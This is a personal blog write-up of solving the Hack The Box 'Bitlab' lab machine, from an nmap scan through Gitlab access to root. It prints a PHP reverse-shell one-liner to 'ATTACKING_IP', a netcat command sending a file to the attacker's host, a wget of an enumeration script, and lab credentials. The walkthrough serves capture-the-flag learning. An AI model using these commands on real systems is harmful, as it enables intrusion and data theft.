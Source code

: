 ```yaml
---
author: "Denis Nu\u021Biu"
categories:
- Hack The Box
date: '2019-12-16T21:50:37+00:00'
guid: https://nuculabs.dev/?p=643
id: 643
image: /wp-content/uploads/2019/12/fc29f-screenshot-2019-12-16-at-21.17.49.png
layout: post
permalink: /2019/12/16/htb-bitlab/
tags:
- bitlab
- hackthebox
- linux machine
- penetration testing
title: Hack The Box &#8211; Bitlab
---
```

Hello,


Here’s how I’ve solved the [Bitlab](https://www.hackthebox.eu/home/machines/profile/207) machine on Hack The Box.


## Gitlab Access


As usual we start of with a **nmap** scan:


```
```bash
root@kali:~# nmap -p- -sV 10.10.10.114
Nmap scan report for 10.10.10.114
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 221.44 seconds
```
```


The scan shows an nginx web server and ssh. If we visit the web server we’ll find a Gitlab instance. Gitlab is used by developers to host their source code. I tried searching for exploits but nothing came up.


Poking around the Gitlab page, if we navigate to the **Help**, we’ll find an bookmark which is obfuscated javascript code. We can copy the code, go back to Gilab’s login page and paste the JS into our dev console. The JS auto completes the login info and we get access to the Gitlab as the Developer.


```
```javascript
javascript:(function(){ var _0x4b18=["x76x61x6Cx75x65","x75x73x65x72x5Fx6Cx6Fx67x69x6E","x67x65x74x45x6Cx65x6Dx65x6Ex74x42x79x49x64","x63x6Cx61x76x65","x75x73x65x72x5Fx70x61x73x73x77x6Fx72x64","x31x31x64x65x73x30x30x38x31x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```
```


Credentials: clave:11des0081x


- - - - - -


## Initial Shell


As the developer we find two code repos, **Profile** and Deploy. We only care about the Profile one, any edits we make to the repo get reflected in the **http://10.10.10.114/profile** page, because Gitlab auto deploy is configured that way.


![](https://i1.wp.com/nuculabs.dev/wp-content/uploads/2019/12/Screenshot-2019-12-15-at-20.37.15.png?fit=1024%2C640&ssl=1)
Next, we can upload a [php-reverse shell ](https://github.com/flozz/p0wny-shell)and gain a TCP shell over netcat:


On my attacking machine I run **nc -nvlp 8080** and on the php reverse shell we run:


```
```bash
php -r '$sock=fsockopen("ATTACKING_IP", 8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```


After I get the shell over netcat I turn it into a pty shell with the following command:


```
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
```


I managed to transfer [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) by running **python -m SimpleHTTPServer 8080** on my attacking machine in the linpeas directory and **wget** MY\_IP/linpeas.sh on the victim machine.


![](https://i1.wp.com/nuculabs.dev/wp-content/uploads/2019/12/Screenshot-2019-12-15-at-20.58.45.png?fit=1024%2C623&ssl=1)
- - - - - -


## User Shell


Linpeas spit some interesting output but nothing practical came out of it. So I went back to Gitlab and browsed into the **snippets** section.


There’s a script which leaks the password, ip and username of the profiles database. We can use that to query the database by ourselves by running this in the terminal:


```
```bash
p0wny@shell:/tmp# php -r '$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");$result = pg_query($db_connection, "SELECT * FROM profiles");print_r(pg_fetch_all($result));'
Array
(
    [0] => Array
        (
            [id] => 1
            [username] => clave
            [password] => c3NoLXN0cjBuZy1wQHNz==
        )


)
```
```


We login via ssh as **clave** and password: **c3NoLXN0cjBuZy1wQHNz==**.


On Clave’s home dir we find a binary called **RemoteConnection.exe**, we can transfer that to our attacking machine by using the following commands:


```
```bash
# On the attacking machine
root@kali:~# nc -nvlp 8080 > file.exe
# On the victim
clave@bitlab:~$ nc -w 3 10.10.14.19 8080 < RemoteConnection.exe 
```
```


- - - - - -


## Root Shell


The root shell is gained by reversing the binary we extracted. Reversing is a bit much as we only need to step through it in the debugger. For debugging I’ve used [x64dbg](https://x64dbg.com/#start).


![](https://i0.wp.com/nuculabs.dev/wp-content/uploads/2019/12/root_pass.png?fit=1024%2C532&ssl=1)
We can copy the root password from the debugger and voila, we got root.


```
```
EAX : 007FF8D0     &"-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
EBX : 00000000
ECX : 99083A11
EDX : 00F90000
EBP : 007FF8FC
ESP : 007FF844
ESI : 007FF860
EDI : 007FF8D0     &"-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
EIP : 00FD15E3     bitlabreverseengineering.00FD15E3
```
```


## Conclusions


Bitlab was an easyish machine but with some weird decisions, for example Clave’s password was hidden as JS in the **Help** page of the Gitlab instance ???


The PHP auto-deploy was nice and the reversing part was kinda unnecessary, it woulda been much nicer if the reversing were more statically focused rather than dynamic.


Thanks for reading and have a great day! <3